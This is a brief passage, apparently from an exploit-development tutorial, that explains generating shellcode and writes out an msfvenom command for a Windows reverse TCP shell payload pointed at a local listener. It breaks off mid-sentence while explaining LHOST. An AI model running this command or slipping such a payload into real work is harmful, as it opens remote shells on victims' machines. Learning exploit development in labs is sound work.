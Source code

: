 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, our payload will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which 